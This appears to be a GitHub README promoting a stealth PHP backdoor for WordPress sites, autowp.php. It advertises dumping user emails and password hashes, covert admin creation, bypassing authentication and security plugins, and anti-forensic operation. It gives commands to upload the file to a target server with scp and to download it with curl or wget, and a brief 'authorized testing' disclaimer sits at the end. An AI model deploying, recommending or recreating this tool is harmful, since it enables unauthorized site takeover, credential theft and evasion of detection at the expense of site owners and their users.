

# WordPress Auto Admin Loginer (Stealth Edition)

[](https://wordpress.org/)
[](#)
[](LICENSE)

> **Enterprise-grade WordPress administration tool for authorized security testing, penetration testing, and red team operations. Featuring advanced obfuscation and stealth capabilities.**



---

## 🚀 Core Features

### 🔍 User Intelligence Dashboard
- Complete user enumeration with real-time WordPress user table analysis
- Display of usernames, email addresses, and cryptographic password hashes
- Role-based filtering and privilege escalation detection

### ⚡ Instant Access Control
- One-click password reset functionality with secure password generation
- Copy-to-clipboard interface for streamlined credential management
- Immediate privilege modification capabilities

### 🕵️‍♂️ Stealth Administration
- Covert admin user creation with advanced anti-detection techniques
- Bypass common security plugin detection mechanisms
- Zero-write operations to maintain operational security

### 🔐 Seamless Authentication
- Direct administrator session initialization
- Bypass standard WordPress authentication protocols
- Maintain session persistence across security controls

---

## 📋 Installation & Deployment

### Method 1: Direct Upload
```bash
# Upload via command line
scp autowp.php user@target:/path/to/wordpress/
```

### Method 2: Web Interface
1. Access the target WordPress filesystem through administrative interfaces
2. Upload `autowp.php` to any WordPress directory (root or subdirectory)
3. Navigate to the file URL in your browser

### Method 3: Download With Wget & Curl
```php
curl https://raw.githubusercontent.com/JawaTengahXploit1337/wp-auto-loginer/main/autowp.php
wget https://raw.githubusercontent.com/JawaTengahXploit1337/wp-auto-loginer/main/autowp.php
```

---

## 🛠️ Operational Usage

### Initialization
The tool automatically locates `wp-load.php` and initializes the WordPress environment without leaving forensic artifacts.

### User Management Interface
- Access comprehensive user data through an AJAX-powered dashboard
- Execute commands with real-time feedback and status reporting
- Maintain operational security through encrypted communications

### Session Management
- Initiate administrator sessions with single-click efficiency
- Maintain access while avoiding standard authentication logs
- Support for multiple concurrent sessions

---

## 🔧 Technical Specifications

### Compatibility
- WordPress 4.0+ (Full backward compatibility)
- PHP 7.0+ (Optimized for PHP 8.x)
- MySQL/MariaDB databases
- Multi-site network support

### Security Features
- Advanced obfuscation techniques
- Environmental awareness and adaptation
- Anti-forensic operation methods
- Zero trace operation mode

### Performance
- Lightweight implementation (<50KB)
- Minimal memory footprint
- Rapid execution times
- Asynchronous operation support

---

## ⚠️ Legal & Ethical Disclaimer

**This tool is strictly designed for authorized security assessments, penetration testing, and educational purposes only.**

### Usage Restrictions
- ❌ **DO NOT** deploy on systems without explicit written authorization
- ❌ **DO NOT** use for malicious or unauthorized activities
- ❌ **DO NOT** violate local, state, or federal laws

### Compliance Requirements
Users must ensure compliance with:
- Computer Fraud and Abuse Act (CFAA)
- General Data Protection Regulation (GDPR)
- Other applicable cybersecurity regulations
- Organizational security policies and procedures
